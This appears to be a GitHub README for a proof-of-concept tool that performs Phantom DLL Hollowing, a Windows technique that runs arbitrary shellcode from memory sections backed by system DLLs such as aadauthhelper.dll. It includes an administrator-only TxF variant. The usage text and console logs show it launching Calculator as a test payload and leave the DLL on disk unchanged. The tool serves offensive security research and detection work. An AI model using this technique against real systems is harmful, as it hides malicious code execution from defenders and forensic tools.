

# Phantom DLL Hollower

This PoC performs Phantom DLL Hollowing which reported by [@_forrestorr](https://twitter.com/_forrestorr).

```
C:\Tools>PhantomDllHollower.exe

PhantomDllHollower - Tool for testing Phantom DLL Hollowing.

Usage: PhantomDllHollower.exe [Options]

        -h, --help    : Displays this help message.
        -p, --payload : Specifies shellcode to execute.
        -t, --txf     : Flag to use TxF. This option requires administrative privilege.

[!] -p option is required.
```



To use this PoC, specifies shellcode file you want to execute as follows:

```
C:\Tools>powershell -c Get-Process calc*

C:\Tools>PhantomDllHollower.exe -p calc.bin

[>] Trying to read payload from C:\Tools\calc.bin.
[+] Payload is read successfully (276 bytes).
[>] Searching target module file from C:\Windows\system32.
[+] Got target module path.
    [*] Target : C:\Windows\system32\aadauthhelper.dll
[>] Trying to create section object for payload.
[+] Payload section object is created successfully.
    [*] Section Handle : 0x2CC
[>] Trying to map payload section.
[+] Payload Section is mapped at 0x00007FF86D2C0000.
[>] Trying to write shellcode to payload section's entry point.
    [*] Entry Point @ 0x00007FF86D2C2900
[+] Shellcode is written successfully.
[>] Executing your shellcode.
[+] Shellcode thread is created successfully.
[*] Waiting for shellcode thread exit.
[*] Done.


C:\Tools>powershell -c Get-Process calc*

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    598      49    30140      74824       0.34   7760   1 CalculatorApp


C:\Tools>
```

If you want to use TxF technique, set `-t` flag as well as shellcode file path.
This option requires administrative privilege:

```
C:\Tools>certutil -hashfile C:\Windows\System32\concrt140.dll sha1
SHA1 hash of C:\Windows\System32\concrt140.dll:
2497d0e241c1adf74f03d7d6065e0e0dd365a9d9
CertUtil: -hashfile command completed successfully.

C:\Tools>powershell -c Get-Process calc*

C:\Tools>whoami /groups | findstr /i level
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288


C:\Tools>PhantomDllHollower.exe -p calc.bin -t

[>] Trying to read payload from C:\Tools\calc.bin.
[+] Payload is read successfully (276 bytes).
[>] Searching target module file from C:\Windows\system32.
    [*] TxF mode is enabled. This mode requires administrative privilege.
[+] Got target module path.
    [*] Target : C:\Windows\system32\concrt140.dll
[>] Trying to generate payload data.
[+] Payload data is generated successfully.
[>] Trying to create section object for payload.
[+] Payload section object is created successfully.
    [*] Section Handle : 0x318
[>] Trying to map payload section.
[+] Payload Section is mapped at 0x00007FF863F80000.
    [*] Shellcode @ 0x00007FF863FAD030
[>] Executing your shellcode.
[+] Shellcode thread is created successfully.
[*] Waiting for shellcode thread exit.
[*] Done.


C:\Tools>certutil -hashfile C:\Windows\System32\concrt140.dll sha1
SHA1 hash of C:\Windows\System32\concrt140.dll:
2497d0e241c1adf74f03d7d6065e0e0dd365a9d9
CertUtil: -hashfile command completed successfully.

C:\Tools>powershell -c Get-Process calc*

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    598      49    30136      55972       0.30   7504   1 CalculatorApp


C:\Tools>
```

If you set `-t` flag without administrative privilege, failed to search target DLL as follows:

```
C:\Tools>powershell -c Get-Process calc*

C:\Tools>whoami /groups | findstr /i level
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192


C:\Tools>PhantomDllHollower.exe -p calc.bin -t

[>] Trying to read payload from C:\Tools\calc.bin.
[+] Payload is read successfully (276 bytes).
[>] Searching target module file from C:\Windows\system32.
    [*] TxF mode is enabled. This mode requires administrative privilege.
[-] Failed to find abusable module. You may not have sufficient privileges.


C:\Tools>powershell -c Get-Process calc*

C:\Tools>
```

## References

* [Masking Malicious Memory Artifacts – Part I: Phantom DLL Hollowing](https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing)

* [GitHub - forrest-orr/phantom-dll-hollower-poc](https://github.com/forrest-orr/phantom-dll-hollower-poc)